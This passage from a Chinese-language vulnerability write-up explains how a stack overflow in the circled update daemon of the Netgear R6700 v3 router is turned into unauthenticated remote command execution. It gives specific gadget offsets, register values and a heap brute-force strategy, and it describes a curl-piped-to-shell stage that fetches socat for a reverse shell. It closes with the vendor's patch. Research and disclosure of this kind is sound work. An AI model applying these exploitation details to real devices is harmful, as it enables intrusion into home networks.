[](https://xzfile.aliyuncs.com/media/upload/picture/20231030164322-61f97a18-7700-1.png)

## 漏洞攻击

下面将POC转化为为一个可以利用的漏洞，提供远程命令执行功能。

在自定义的设置中，是Netgear的DHCP服务器。于是可以DNS服务器和https更新服务器都是我们可以自定义的，由于curl -k，任何自签名证书都将被接受。

在处理堆栈溢出时，可以将执行流重定向到堆栈，但在此上下文中，堆栈不可执行代码，所以通常不可执行的内存区域问题是通过链接所谓的“gadgets”来解决的，但发现了一个有趣的的“one gadget”解决方案：

该漏洞允许我们溢出堆栈并重写一些保存的寄存器，从\\$R4到\\$R11和\\$PC。我们希望将流重定向到某个已知的可执行内存区域。在这个设备上，ASLR部分存在，由于二进制文件没有编译为PIE，所以代码位于0x8000。由于格式字符串，溢出发生了，这意味着不能写入空字节null（除非是字符串末尾的最后一个）。

还有一个gadget，允许用一个受控参数调用 `system` ，这就是所使用的，唯一能控制的是用于漏洞的长字符串。它是用 `sscanf` 读取的，因此我们不能注入空字节，空格或回车，但它足以构造一个shell脚本。

代码会操作字符串，让字符串进入堆，由于 `/proc/sys/kernel/randomize_va_space` 被设置为1，因为堆将始终位于数据段之后，并且由于二进制文件不是位置无关可执行文件（PIE），所以地址将始终不变。

下一步就是调用 `system` ，\\$R0指向堆内存中，当进程崩溃后重新启动时，可以无限次尝试找到正确的地址

## 发现有趣的gadgets目标

通过探索所有指向 `system` 函数的所有gadgets，可以在偏移量 `0xEC78` 处看到：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231030164331-679d6e66-7700-1.png)

用溢出控制\\$R4值，所以我们可以强制使用ADD R0，R4，R2的结果最终控制\\$R0，从而控制 `system` 的参数。找到\\$R2的值，它是用于先前在触发寄存器恢复的 `ret` 指令之前使用的格式字符串的参数，并且始终等于 `0xFFFF7954` 。由于堆边界是 `0x1c000 - 0x21000` ，所以可以向其添加 `0x86ac` 来定位这些地址，因为它将被上面提到的小gadgets减去,最终得到了像 `0x000266ac` 这样的值，需要用一个空字节来写入。

## 爆破heap内存

由于堆将包含circleinfo.txt字符串的一部分，所以一种策略是写命令时不带空格和回车，然后在堆中一个地址接一个地址地尝试，直到找到命令的第一个字符。由于更新过程会在崩溃后重新启动，所以最终会获得正确的地址。

动态分析之后，由于字符串的开头通常会被后面的堆分配覆盖，因此需要将命令放在字符串的末尾， `circleinfo.txt` 文件将包含以下行：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231030164348-719d6b96-7700-1.png)

包含：

-   saved\_PC代表gadgets\\x78\\xEC以LSB形式
-   saved\_R4代表堆从0x246ac到0x296ac的分析

使用一个网络服务器，它为每个请求提供一个不同的文件，并保存不同的$R4。

## 构造payload

爆破堆地址启动之后，由于circled二进制中的内部计时器，仅每次尝试之间的间隔为3或4秒，速度很慢。为了加速攻击，选择以256字节的步长解析堆，并在shell脚本之前使用构造的payload。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231030165523-101fef54-7702-1.png)

这个“漏洞”其实很简单，下载一个socat二进制文件并启动一个反向shell。虽然第二阶段不是必要的，但保持第一个有效负载尽可能小（curl管道到shell），可以最大程度地在堆内存中找到它，能够在EXP中放置任何命令，下面的脚本能够在Netgear路由器上执行LED灯光秀：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231030164357-76ea2bac-7700-1.png)

## 补丁修复方法

官方从curl命令行中删除了 `-k` 选项，这将阻止模拟update服务器。同时修改了解析器：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231030164405-7be1dd30-7700-1.png)

## 结论

本文在Netgear R6700 v3路由器上实现广域网WAN侧未授权RCE。该漏洞存在于circled程序中，该程序能够下载了触发缓冲区溢出的恶意更新文件，这实现了在目标计算机上调用任意shell命令，从而在攻击方计算机上启动reverse shell。
